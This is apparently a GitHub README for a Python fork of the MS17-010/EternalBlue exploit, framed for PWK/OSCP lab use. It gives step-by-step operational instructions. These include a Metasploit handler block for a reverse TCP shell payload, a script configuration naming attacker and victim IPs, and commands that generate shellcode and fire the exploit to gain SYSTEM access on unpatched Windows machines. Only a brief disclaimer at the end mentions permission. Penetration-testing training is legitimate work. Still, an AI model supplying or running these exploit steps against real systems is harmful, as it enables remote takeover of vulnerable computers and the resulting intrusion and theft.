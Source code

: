 # MS17-010

## Intro
This repository is forked from the fantastic work by [Worawit](https://github.com/worawit/MS17-010/) on the NSA's exploit leaked by the ShadowBrokers.

This is a python port of the exploit and has an excellent reliability for exploiting Windows OS that are vulnerable to [MS17-010/EternalBlue](http://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch).
use the checker.py script to see if the target is unpatched/vulnerable.

Worawits script is great but its not so simple or quick to compile and has many moving parts to get up and running. 
It is necessary to work with raw Assembly language, shellcode for multiple architectures, msfconsole etc. 

What I have created a very handy bash script which will do all of the hard work for you and also gives instructions on how to exploit.

## Why create this ?
Because knowing how the exploit works is a lot more fun that firing up metasploit as well as that I created this out of necessity for the [PWK course](https://www.offensive-security.com/information-security-training/penetration-testing-training-kali-linux/) and the [OSCP certification](https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/)  . Those of you undertaking either will be well aware of the fact that Metasploit is extremely limited during exam time, so this 
exploit offers you a very fast reliable and allowed way to exploit any targets with port 445,139 open that are vulnerable.

My generation script will output 2 files that can be read into msfconsole by using the -r flag (msfconsole -r /root/EternalBlueX64.rc), so you dont have to keep typing out 
```
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set EXITFUNC thread
set ExitOnSession false
set LHOST 192.168.*.**
set LPORT 5555
exploit -j
```

# Reliability
Its very reliable, I have not come across an unpatched Windows 7 PC that it has not worked against (in PWK and personal Lab environment).
If the system is vulnerable and it does not work the first time around keep trying.. or take a break and regenerate the shellcode again and again, eventually you will own the computer and have full **nt authority\system** rights on the pwned system.


# Use



To get up and running theres 2 things you need to do, open up the start.sh file and add you own ip as the **attackerIP** and the victim OS IP in **vulnerableIP** you can optionally change the port numbers that msfconsole will listen on but generally you can leave them as is.
```
# change these values to your attacking IP and 2 ports for 32bit/64bit Architecture
attackerIP=192.168.2.133 # put your ip here*
vulnerableIP=192.168.2.253  # put the victim ip here*
arch_x86_port=4444  # x86 msfconsole multi handler port (optional change)
arch_x64_port=5555 # x64 msfconsole multi handler port (optional change)
```

fire up  the script and just follow the on screen instructions after the 7 step generation process. 

```
./start.sh
```

You will then need to copy 3 lines from the output 1 is the actual execution of the python **eternalblue_exploit7.py** exploit and the other 2 are the msfconsole helpers to start up 2 exploit/multi/handlers.. something similar to the following but youll see your specific commands in the output.

```
msfconsole -r "/root/MS17-010/output/EternalBlueX64.rc"
msfconsole -r "/root/MS17-010/output/EternalBlueX86.rc"
python /root/MS17-010/eternalblue_exploit7.py 192.168.*.** /root/MS17-010/bin/sc_all.bin 3
```


# Diclaimer
Do not use this on systems unless you have been given explicit permission. 
This is created for use in the PWK labs and OSCP exam lab. 
It may have unpreceedented consequenses both legally and ethically if used inappropriately. 
This is a POC script and I bare no responsibility for its use by others.
